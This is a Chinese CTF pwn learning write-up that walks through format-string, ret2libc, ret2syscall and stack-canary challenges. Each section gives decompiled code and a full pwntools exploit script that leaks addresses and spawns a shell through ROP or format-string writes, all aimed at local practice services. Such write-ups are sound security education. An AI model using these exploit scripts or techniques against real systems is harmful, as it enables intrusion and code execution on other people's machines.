在漏洞利用中，我们可以通过这种方式，把某函数的got表传进去，从而获得所对应函数的虚拟地址，然后根据函数在libc中的相对位置，就可以计算出任意的函数地址。
这里若输入“\0c\04\0x”，似乎会因为0c是不可见字符而无法将其成功过输入，被程序忽视了
栈数据覆盖
%n转换符将当前已经成功写入==流或缓冲区==的字符个数存储到由参数指定的整数中。
char s = "hello" ;int i = 0 ;printf ("%s %n" ,s,&i);#这里i的值就会被写为6
而往往我们需要写入的值会是一个很大的数字，故需要使用具体的宽度或精度转换规范来控制写入的字符个数，即在格式字符串中加上一个十进制整数来表示输出的最小位数，如果实际位数大于定义的宽度，则按实际位数输出，反之则以空格或0补齐。（0补齐在宽度前加"."或者“0”）
比如我们需要将之前所说的第十三个参数进行改变
printf （"\x28\xcd\xff\xff%08x%08x%08x%012d%13$n" ）
对比printf（）执行前后的栈，可以看到其首先解析“%13$n”从0xffffcd58找到地址0xffcd28，然后将其数据覆盖为0x00000020，其中0xffffcd58是函数的第十三个参数
即我们写入数据的位置。
#若是希望逐字节改变 printf ("%13$hhn" )
需要注意的是 实际环境的地址与gdb的地址并不相同
可能需要先泄露地址再根据其计算其余剩余的地址
x86-64中的格式化字符串漏洞
由于在x64上，参数的传递先通过==rdi，rsi，rdx，rcx，r8和r9==传递，之后才通过栈传递
printf（%p-……）
前五个输出将分别来自rsi、rdx、rcx、r8和r9，后面的输出才取自栈，为什么说linux有咯六个寄存器，可是指出出了五个呢，原因是有一个寄存器rdi被用于传递格式字符串（x86中也有，其他部分与x86差别不大，但是无法修改arg2的值了，因为它被存入了寄存器中。
具体题目：
int __cdecl main (int argc, const char **argv, const char **envp) { int fd; char flag[80 ]; char name[80 ]; unsigned int v7; int *p_argc; p_argc = &argc; v7 = __readgsdword(0x14 u); init(); memset (flag, 0 , sizeof (flag)); memset (name, 0 , sizeof (name)); fd = open("flag" , 0 , 0 ); if ( fd == -1 ) { puts ("open flag error!" ); exit (0 ); } read(fd, flag, 0x50 u); close(fd); puts ("Please input your name:" ); read(0 , name, 0x50 u); printf ("Your name is: " ); printf (name); return 0 ; }

下面是两个示例展示了函数调用时rbp、返回地址和参数的压栈和访问顺序的典型情况
; 调用函数 foo(a, b, c) ; 将参数 c 压栈 mov rdi, c push rdi ; 将参数 b 压栈 mov rsi, b push rsi ; 将参数 a 压栈 mov rdx, a push rdx ; 调用函数 foo call foo ; 清理栈上的参数（函数调用约定中可能需要清理） add rsp, 24 ; 假设每个参数占用 8 字节（3 * 8 字节）
push rbp ; 保存当前函数的基址指针 mov rbp, rsp ; 设置新的基址指针 sub rsp, 16 ; 为局部变量分配空间 push qword [rbp + 8] ; 压栈第一个参数 push qword [rbp + 16] ; 压栈第二个参数 push qword [rbp + 24] ; 压栈第三个参数 ; 函数体执行，可以通过 [rbp - X] 的方式访问局部变量 mov rsp, rbp ; 恢复栈指针到之前的位置 pop rbp ; 恢复基址指针 ret ; 弹出返回地址，返回调用点
这里由于输入的足够多，故全用%p打印即可
exp如下：
from pwn import *p = remote("127.0.0.1" ,34861 ) print (p.recv())p.send(b'aaaa-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p' ) while 1 : print (p.recv())

这里没有通过aaaa找到其地址，但是后面百分之所打印出的元素就直接到了我们的flag，转为正确顺序即可
void __noreturn game () { int choice[4 ]; choice[1 ] = __readgsdword(0x14 u); introduction(); init_person_and_dragon(); while ( 1 ) { while ( 1 ) { menu(); choice[0 ] = 0 ; __isoc99_scanf("%d" , choice); if ( choice[0 ] != 3 ) break ; talk(); } if ( choice[0 ] > 3 ) break ; if ( choice[0 ] == 1 ) { attack(); } else { if ( choice[0 ] != 2 ) break ; chendian(); } } puts ("Goodbye." ); exit (0 ); }
void init_person_and_dragon () { pwner.HP = 100 ; pwner.ATK = 1 ; dragon.HP = 10000000 ; dragon.ATK = 100000 ; }
void talk () { char str[16 ]; unsigned int v1; v1 = __readgsdword(0x14 u); memset (str, 0 , sizeof (str)); puts ("Input what you want to talk: " ); read(0 , str, 0x10 u); puts ("You said: " ); printf (str); puts ("But the dragon seems to ignore you.\n" ); }
void attack () { puts ("You rushed into the dragon's lair." ); sleep(1u ); puts ("You pick up your sword and slash at the dragon." ); sleep(1u ); dragon.HP -= pwner.ATK; puts ("You attacked the dragon." ); printf ("Now the dragon's HP is %d.\n" , dragon.HP); if ( dragon.HP <= 0 ) { puts ("You succeed." ); success(); } sleep(1u ); puts ("Then the dragon attack you." ); pwner.HP -= dragon.ATK; printf ("Now your HP is %d.\n" , pwner.HP); sleep(1u ); if ( pwner.HP <= 0 ) { puts ("You died." ); exit (0 ); } }

分析代码逻辑得知是一个小菜鸡干巨龙得游戏，并且在talk中发现了格式化漏洞，思考能否通过该漏洞来更改巨龙的HP来过关已得到flag，他这里卡着边界给出输入参数的位置，得全部用%p才能看出来，故这里使用FmtStr无法正常得到相应的偏移值


用cyberchef看看，可以看到%p的16进制为25 70

这里这部分可以没用
运行可得到相应结果，可以看出来偏移值为7，然后这里运行一次后会自动返回到选择处，故无需构造调用链控制函数调用流
获得offset后便可以通过got表来获得so库中的某个函数的具体地址，然后通过libc database search
(blukat.me) 该网站找到具体的libc版本


麻，之后发现简单的修改值就行，或者说本来是知道的，不知道为啥做着做着做歪了
简单的利用fmtstr_payload(offset,{dragonHp:0})修改hp值即可
exp如下：
from pwn import *def exec_fmt (payload ): print (io.recvuntil("Input what you want to talk: " )) io.sendline(payload) print (io.recvuntil("You said: \n" )) info = io.recvuntil("But" )[:-3 ] print (info) return info io = remote('localhost' ,40865 ) libc = ELF('libc6-i386_2.17-93ubuntu4_amd64.so' ) elf = ELF('format_level1' ) print (io.recvuntil(b'Your choice: \n' ))io.sendline(b"3" ) offset = 7 dragonHp = 0x804C00C payload = fmtstr_payload(offset,{dragonHp:0 }) exec_fmt(payload) print (io.recvuntil(b'Your choice: \n' ))io.sendline(b"1" ) while 1 : print (io.recv())
void attack () { puts ("You rushed into the dragon's lair." ); sleep(1u ); puts ("You pick up your sword and slash at the dragon." ); sleep(1u ); dragon.HP -= pwner.ATK; puts ("You attacked the dragon." ); printf ("Now the dragon's HP is %d.\n" , dragon.HP); if ( dragon.HP <= 0 ) puts ("You succeed." ); sleep(1u ); puts ("Then the dragon attack you." ); pwner.HP -= dragon.ATK; printf ("Now your HP is %d.\n" , pwner.HP); sleep(1u ); if ( pwner.HP <= 0 ) { puts ("You died." ); exit (0 ); } }
可以看到其他部分的函数并没有发生太大改变，但是attack函数在success之后又并没有帮我们调用success函数了，在pwn爹的提示下想到可以通过格式化字符串更改rbp的地址起到控制程序执行流的效果
void __noreturn success () { system("cat flag" ); exit (0 ); }
首先要用格式化字符串泄露栈地址，再上一题我们已经确定了输入的前四个字符对应的偏移位置为7，这里我们用gdb动态调试查找栈结构来找出rbp对应的偏移位置

这里进入到printf函数中查看，可以看到此时第十四个参数即是rbp，用%p即可查看rbp上层
也就是talk中的rbp的位置，而talk函数的rbp地址减去0x1c即是printf函数对应的返回地址，我们再通过格式化字符串更改该返回地址为success函数的地址即可，exp如下：
from pwn import *context.log_level='debug' context.os='linux' context.arch='i386' p = remote('127.0.0.1' ,36657 ) p.sendlineafter(b'Your choice: \n' ,b'3' ) p.sendafter(b'Input what you want to talk: \n' ,b'%14$p' ) p.recvuntil(b"You said: \n" ) stack = int (p.recvuntil('But' )[:-3 ],16 ) - 0x1c p.sendlineafter(b'Your choice: \n' ,b'3' ) p.sendafter(b"Input what you want to talk: \n" ,p32(stack)+b'%37651c%7$hn' ) p.interactive()

只能说非常痛苦哥们
定位：

参考此图，这里的具体构造方法简单来说就是首先改变，rbp1（talk函数的rbp的位置）中存储的rbp2（即函数game的rbp的位置）的地址中存储的值为talk函数的返回地址，接着在下一次中便可以通过格式化字符串漏洞再通过rbp2的值来修改返回地址，从而达到控制程序执行流的目的。

exp如下：
from pwn import *context.log_level='debug' context.os='linux' context.arch='amd64' p=remote('127.0.0.1' ,38243 ) p.sendlineafter(b'Your choice: \n' ,b'3' ) p.sendlineafter(b'Input what you want to talk: \n' ,b'%6$p' ) p.recvuntil(b'0x' ) stack=int (p.recvuntil(b'But' )[:-3 ],16 ) print (hex (stack))back_addr=stack-0x20 +4 p.sendlineafter(b'Your choice: \n' ,b'3' ) p.sendlineafter(b'Input what you want to talk: \n' ,b'%' +str (back_addr&0xff ).encode()+b'c' +b'%6$hhn' ) p.sendlineafter(b'Your choice: \n' ,b'3' ) p.sendlineafter(b'Input what you want to talk: \n' ,b'%' +str (0x9317 ).encode()+b'c' +b'%14$hn' ) while 1 : print (p.recv())

rePwn
似乎是需要逆向的pwn题？逆向手狂喜
int __cdecl main (int argc, const char **argv, const char **envp) { char buf[64 ]; makebinsh(argc, argv, envp); printf ("What do you want?" ); read(0 , buf, 0x64 uLL); return 0 ; }
__int64 makebinsh () { unsigned int v0; int v1; int v2; int v3; int v4; int v5; int v7; int v8; int v9; int v10; int v11; int v12; int v13; char src[64 ]; void *s; int i; strcpy (src, "/abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ" ); s = malloc (8uLL ); memset (s, 0 , 8uLL ); v0 = time(0LL ); srand(v0); puts ("Input seven single digits:" ); for ( i = 0 ; i <= 6 ; ++i ) __isoc99_scanf("%d" , &v7 + i); if ( v10 * v8 == 10 * v11 + v12 ) { strncat ((char *)s, src, 1uLL ); } else { v1 = rand(); strncat ((char *)s, &src[(int )(53.0 * ((double )v1 / 2147483647.0 ))], 1uLL ); } if ( v12 == v13 + 1 ) { strncat ((char *)s, &src[2 ], 1uLL ); } else { v2 = rand(); strncat ((char *)s, &src[(int )(53.0 * ((double )v2 / 2147483647.0 ))], 1uLL ); } strncat ((char *)s, &src[v8], 1uLL ); if ( v8 == v10 ) { strncat ((char *)s, &src[14 ], 1uLL ); } else { v3 = rand(); strncat ((char *)s, &src[(int )(53.0 * ((double )v3 / 2147483647.0 ))], 1uLL ); } strncat ((char *)s, &src[v13], 1uLL ); if ( v7 == v9 ) { strncat ((char *)s, &src[19 ], 1uLL ); } else { v4 = rand(); strncat ((char *)s, &src[(int )(53.0 * ((double )v4 / 2147483647.0 ))], 1uLL ); } if ( v10 - v11 == v7 ) { strncat ((char *)s, &src[8 ], 1uLL ); } else { v5 = rand(); strncat ((char *)s, &src[(int )(53.0 * ((double )v5 / 2147483647.0 ))], 1uLL ); } printf ("Here's the string:%s\n" , (const char *)s); printf ("The address is:%p\n" , s); return 0LL ; }
这一段是个简单的自动机，来自动生成我们所需要的/bin/sh，这里虽然表面用了随机数，但是c中的rand实际上是伪随机数发生器，当srand的种子相同时，其生成的数字是固定的。
提取其中的限制条件：
v10 * v8 == 10 * v11 + v12 v12 == v13 + 1 v8 == v10 v7 == v9 v10 - v11 == v7 strncat ((char *)s, &src[v8], 1uLL );strncat ((char *)s, &src[v13], 1uLL );
==最后这两条件嘎嘎容易漏==，之后用z3解放程得到v7-v13的值即可
exp：
from pwn import *i p.sendline(b"0" ) # 接收并打印服务端发送的数据 print(p.recvuntil("The address is:" )) shadd = int (p.recvuntil("\n" )[:-1 ],16 ) print(p.recv()) # 发送 payload payload = b' a' * (64 + 8 ) poprdi = 0x40168e ret = 0x40101a action = 0x401296 payload += p64(poprdi) + p64(shadd)+p64(action) p.send(payload) # 与服务端进行交互 p.interactive()
ret2libc
ssize_t vuln () { char buf[80 ]; puts ("I hide the b4ckdoor..\n" ); puts ("But..maybe libc can help u??\n" ); return read(0 , buf, 0x100 uLL); }

一眼ret2libc，并且可以看出来使用的libc为2.34，也可以通过got表泄露libc中函数后，通过其后三位在libc database search
(blukat.me) 确定其libc版本
payload += p64(pop_rdi_ret) payload += p64(puts_got) payload += p64(puts_plt) payload += p64(vul)
之后利用libc.so调用sysetm("")即可
puts_real = u64(r.recvuntil("I" )[1 :-2 ].ljust(8 ,b'\x00' )) print (puts_real,"^^" ,r.recv())libc_base = puts_real - 0x080ed0 print (hex (libc_base))system_addr = libc_base + 0x050d60 print (next (libc.search(b"/bin/sh" )))print (hex (system_addr))bin_sh_addr = libc_base + 0x1d8698 print (hex (bin_sh_addr))payload2 = b'a' * padding payload2 += p64(ret) payload2 += p64(pop_rdi_ret) payload2 += p64(bin_sh_addr) payload2 += p64(system_addr)
完整exp：
from pwn import *r = remote('127.0.0.1' ,34951 ) elf = ELF('./ret2libc' ) libc = ELF('./libc.so' ) padding = 88 puts_plt = elf.plt['puts' ] puts_got = elf.got['puts' ] vul = 0x4011e8 pop_rdi_ret = 0x040117e ret = 0x40124D payload = b'a' * padding payload += p64(pop_rdi_ret) payload += p64(puts_got) payload += p64(puts_plt) payload += p64(vul) r.recvuntil("But..maybe libc can help u??\n" ) r.sendline(payload) puts_real = u64(r.recvuntil("I" )[1 :-2 ].ljust(8 ,b'\x00' )) print (puts_real,"^^" ,r.recv())libc_base = puts_real - 0x080ed0 print (hex (libc_base))system_addr = libc_base + 0x050d60 print (next (libc.search(b"/bin/sh" )))print (hex (system_addr))bin_sh_addr = libc_base + 0x1d8698 print (hex (bin_sh_addr))payload2 = b'a' * padding payload2 += p64(ret) payload2 += p64(pop_rdi_ret) payload2 += p64(bin_sh_addr) payload2 += p64(system_addr) r.sendline(payload2) r.interactive()
ret2syscall

简单的ret2syscall

该给的都给了，exp如下：
from pwn import *sh = remote("127.0.0.1" ,42543 ) context.log_level = 'debug' pop_rax =0x40117e pop_rdi =0x401180 pop_rsi_rdx =0x401182 binsh = 0x404040 ret = 0x40101a syscall = 0x401185 payload = b"a" *64 + b'a' *8 payload += p64(pop_rax)+p64(0x0 ) payload += p64(pop_rsi_rdx)+p64(0 )+p64(0x0 ) payload += p64(pop_rdi)+p64(binsh) payload += p64(pop_rax)+p64(0x3b ) + p64(syscall) sh.sendlineafter("Can you make a syscall?\n" ,payload) sh.interactive()
canary
x86canary结构：
High Address | | +-----------------+ | args | +-----------------+ | return address | +-----------------+ | old ebp | ebp => +-----------------+ | ebx | ebp-4 => +-----------------+ | unknown | ebp-8 => +-----------------+ | canary value | ebp-12 => +-----------------+ | 局部变量 | Low | | Address
x64canary结构：
High Address | | +-----------------+ | args | +-----------------+ | return address | +-----------------+ | old ebp | rbp => +-----------------+ | canary value | rbp-8 => +-----------------+ | 局部变量 | Low | | Address
先泄露canary的值，之后栈溢出时将其保持为正常值即可
; Attributes: bp-based frame ; int vuln () public vuln vuln proc near buf= byte ptr -50 h var_8= qword ptr -8 ; __unwind { endbr64 push rbp mov rbp, rsp sub rsp, 50 h mov rax, fs:28 h mov [rbp+var_8], rax xor eax, eax lea rdi, s ; "What's your name?" call _puts lea rax, [rbp+buf] mov edx, 100 h ; nbytes mov rsi, rax ; buf mov edi, 0 ; fd call _read lea rax, [rbp+buf] mov rsi, rax lea rdi, format ; "%s,right?\n" mov eax, 0 call _printf lea rdi, aIPutACanaryOnM ; "I put a canary on my stack!" call _puts lea rax, [rbp+buf] mov edx, 100 h ; nbytes mov rsi, rax ; buf mov edi, 0 ; fd call _read lea rdi, aTryToDefeatIt ; "Try to defeat it!" mov eax, 0 call _printf nop mov rcx, [rbp+var_8] xor rcx, fs:28 h jz short locret_4012B8

exp如下：
from pwn import *elf = ELF("./canary" ) p = remote("127.0.0.1" ,35347 ) payload1 = b'a' *0x49 p.sendafter("What's your name?\n" ,payload1) p.recvuntil("aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" ) canary = b'\x00' + p.recvuntil(b"I put a canary on my stack!\n" )[:7 ] payload2 = b'a' *0x48 mainadd = 0x40121B rdiret = 0x401343 ret_addr = 0x40101a payload2 += canary + b'a' *8 + p64(rdiret) + p64(elf.got['puts' ])+p64(elf.plt['puts' ]) + p64(mainadd) p.send(payload2) p.recvuntil(b"Try to defeat it!" ) libcbase=u64(p.recv(6 ).ljust(8 ,b'\x00' )) - 0x084420 system_addr=libcbase+0x052290 bin_sh_addr=libcbase+0x1b45bd print (hex (libcbase))payload3 = b'a' *0x48 + canary + b'a' *8 payload3 += p64(ret_addr)+p64(rdiret)+p64(bin_sh_addr)+p64(system_addr) p.sendafter("What's your name?\n" ,payload3) p.sendafter("I put a canary on my stack!\n" ,payload3) p.interactive()
feedback
先mark住慢慢来吧，似乎不是一时半会能学会的东西
IsThisHeap？
- Jmp·Cliff - 博客园 (cnblogs.com)
Pwn
IO_FILE 学习笔记 - Jmp·Cliff - 博客园 (cnblogs.com)